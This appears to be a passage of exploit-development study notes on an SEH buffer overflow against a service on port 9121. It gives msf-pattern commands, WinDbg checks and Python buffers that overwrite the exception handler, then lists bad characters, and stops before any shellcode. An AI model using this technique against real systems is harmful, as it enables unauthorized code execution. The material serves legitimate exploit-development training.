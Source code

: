 Inspect the callstack (**k**) to determine which functions were called before the eip was overwritten

## Gaining Code Execution
### Determine the exact offset required to precisely overwrite the exception handler on the stack.
```
msf-pattern_create -l 1000
```
The new pow
```
server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8...Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
```
In windbg
```
!exchain
```
In kali
```
msf-pattern_offset - l 1000 -q 33654132 # 33654132 being the address of the handler got with exchain
```
The new pow
```
server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"\x41" * 128 # 128 being the size got with msf-pattern_offset
inputBuffer += b"\x42\x42\x42\x42"
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
Run `!exchain` to confirm the handler address is overwritten by `\x42\x42\x42\x42` 
### Detect Bad charcaters
```
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
    "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
    "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
    "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
    "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
    "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
    "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
    "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )
```
